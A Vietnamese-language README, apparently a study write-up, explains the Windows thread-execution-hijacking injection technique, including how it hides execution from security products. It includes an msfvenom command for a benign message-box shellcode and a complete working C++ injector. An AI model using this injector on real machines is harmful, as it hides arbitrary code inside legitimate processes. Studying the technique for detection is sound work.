







# Thread Execution Hijacking

## Bối cảnh ban đầu

Đây là một kĩ thuật biến thể hơn của ```Process Injection``` : thay vì tạo tiến trình mới trong tiến trình mục tiêu, kẻ tấn công chiếm quyền luồng (thread đang tồn tại) để chạy payload trong ngữ cảnh của process hợp lệ. Giúp né không phải sử dụng các hàm như ```CreateRemoteThread```. Về cơ bản cái này trông có vẻ khá giống ```Process Hollwing``` chỉ là nó nhắm vào một tiến trình đang có thay vì tạo một tiến trình ở trạng thái tạm dừng.

Việc chạy mã dưới context của một tiến trình khác cho phép truy cập bộ nhớ, tài nguyên và có thể cả quyền hạn cao hơn của tiến trình đó.
Việc thực thi thông qua tấn công và chiếm quyền thực thi luồng (Thread Excution Hijacking) cũng có thể tránh được sự phát hiện của các sản phẩm bảo mật vì quá trình thực thi được che giấu dưới tiến trình hợp pháp.

## Tổng quan chung

1. Chọn process đích (thường là tiến trình hợp pháp, sống lâu, có quyền phù hợp)
2. Mở handle tới thread/process với các quyền truy cập đọc/sửa context, suspend/resume
3. Tạo/ chuẩn bị vùng thực thi trong process đích rồi chuyển hướng instruction pointer của thread sang đó.
4. Khôi phục luồng và restore lại context.

Vẫn sử dụng các hàm khá tương đồng như Process Hollowing. Các hàm Windows API sử dụng cũng khá tương đồng.

=> Tóm lại quy trình vẫn là suspend, inject rồi resume.



# Chi tiết xây dựng mã nguồn (x64)

## Xây dựng shellcode x64 với msfvenom




Sử dụng câu lệnh ```msfvenom -p windows/x64/messagebox TEXT="Hello" TITLE="Test" -f c```

## Tìm PID dựa vào Process name



## Tìm Thread ID (TID) thuộc về process ở phía trước



## Lấy Handle Thread, sau đó SuspendThread.



## Tiến hành lấy context của Thread đã lấy được sau đó cấp phát vùng nhớ và ghi shellcode.



## Cập nhật lại địa chỉ RIP bằng cách set lại context của Thread sau đó tiếp tục luồng chương trình lại như bình thường để shellcode được thực thi.




## Video DEMO
<video src="Img/Demo.mp4" controls width="1920"></video>

<details> 
 <summary>Xem chi tiết mã nguồn</summary>
 
```C++
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <vector>

using namespace std;

unsigned char shellcode[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xcc\x00\x00\x00\x41"
"\x51\x41\x50\x52\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60"
"\x48\x8b\x52\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x0f\xb7"
"\x4a\x4a\x48\x8b\x72\x50\x48\x31\xc0\xac\x3c\x61\x7c\x02"
"\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b"
"\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02"
"\x41\x51\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00"
"\x48\x85\xc0\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x49\x01"
"\xd0\x50\x8b\x48\x18\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41"
"\x8b\x34\x88\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac"
"\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39"
"\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b"
"\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41"
"\x58\x41\x58\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59\x41"
"\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x4b\xff\xff\xff\x5d\xe8\x0b\x00\x00\x00\x75"
"\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x59\x41\xba\x4c"
"\x77\x26\x07\xff\xd5\x49\xc7\xc1\x00\x00\x00\x00\xe8\x06"
"\x00\x00\x00\x48\x65\x6c\x6c\x6f\x00\x5a\xe8\x05\x00\x00"
"\x00\x54\x65\x73\x74\x00\x41\x58\x48\x31\xc9\x41\xba\x45"
"\x83\x56\x07\xff\xd5\x48\x31\xc9\x41\xba\xf0\xb5\xa2\x56"
"\xff\xd5";

DWORD findPIDByName(LPWSTR ProcessName) {
    DWORD pid = 0;
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    if (hSnapshot == INVALID_HANDLE_VALUE) {
        cout << "CreateToolhelp32Snapshot failed. Error: " << GetLastError() << endl;
        return 0;
    }

    PROCESSENTRY32W pEntry;
    pEntry.dwSize = sizeof(PROCESSENTRY32W);

    if (Process32FirstW(hSnapshot, &pEntry)) {
        do {
            if (_wcsicmp(pEntry.szExeFile, ProcessName) == 0) {
                pid = pEntry.th32ProcessID;
                break;
            }
        } while (Process32NextW(hSnapshot, &pEntry));
    }

    CloseHandle(hSnapshot);
    return pid;
}

DWORD findThreadByPID(DWORD pid) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

    if (hSnapshot == INVALID_HANDLE_VALUE) {
        cout << "CreateToolhelp32Snapshot failed. Error: " << GetLastError() << endl;
        return 0;
    }

    THREADENTRY32 tEntry;
    tEntry.dwSize = sizeof(THREADENTRY32);
    DWORD threadId = 0;

    if (Thread32First(hSnapshot, &tEntry)) {
        do {
            if (tEntry.th32OwnerProcessID == pid) {
                threadId = tEntry.th32ThreadID;
                break;
            }
        } while (Thread32Next(hSnapshot, &tEntry));
    }

    CloseHandle(hSnapshot);
    return threadId;
}

int wmain(int argc, wchar_t** argv) {
    if (argc != 2) {
        wcout << L"Usage: injector.exe [ProcessName.exe]" << endl;
        return -1;
    }

    DWORD pid = findPIDByName(argv[1]);
    if (pid == 0) {
        cout << "Process not found: " << endl;
        wcout << argv[1] << endl;
        return -1;
    }
    cout << "Found PID: " << pid << endl;

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) {
        cout << "OpenProcess failed. Error: " << GetLastError() << endl;
        return -1;
    }

    DWORD tid = findThreadByPID(pid);
    if (tid == 0) {
        cout << "No thread found for PID: " << pid << endl;
        return -1;
    }
    cout << "Found TID: " << tid << endl;

    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, tid);
    if (!hThread) {
        cout << "OpenThread failed. Error: " << GetLastError() << endl;
        return -1;
    }

    if (SuspendThread(hThread) == (DWORD)-1) {
        cout << "SuspendThread failed. Error: " << GetLastError() << endl;
        return -1;
    }
    cout << "Thread suspended." << endl;

    CONTEXT ctx = { 0 };
    ctx.ContextFlags = CONTEXT_ALL;

    if (!GetThreadContext(hThread, &ctx)) {
        cout << "GetThreadContext failed. Error: " << GetLastError() << endl;
        return -1;
    }
    cout << "Got thread context." << endl;

    LPVOID pRemoteMem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode),
        MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!pRemoteMem) {
        cout << "VirtualAllocEx failed. Error: " << GetLastError() << endl;
        return -1;
    }
    cout << "Allocated memory at: 0x" << hex << (DWORD64)pRemoteMem << dec << endl;

    SIZE_T bytesWritten;
    if (!WriteProcessMemory(hProcess, pRemoteMem, shellcode, sizeof(shellcode), &bytesWritten)) {
        cout << "WriteProcessMemory failed. Error: " << GetLastError() << endl;
        return -1;
    }
    cout << "Written " << bytesWritten << " bytes." << endl;

    DWORD64 originalRIP = ctx.Rip;

    ctx.Rsp -= 8;
    if (!WriteProcessMemory(hProcess, (LPVOID)ctx.Rsp, &originalRIP, sizeof(originalRIP), NULL)) {
        cout << "Failed to write return address." << endl;
        return -1;
    }

    ctx.Rip = (DWORD64)pRemoteMem;

    if (!SetThreadContext(hThread, &ctx)) {
        cout << "SetThreadContext failed. Error: " << GetLastError() << endl;
        return -1;
    }
    cout << "Thread context updated." << endl;
    if (ResumeThread(hThread) == (DWORD)-1) {
        cout << "ResumeThread failed. Error: " << GetLastError() << endl;
        return -1;
    }
    cout << "Thread resumed." << endl;
    cout << "Injection completed!" << endl;
    return 0;
}
```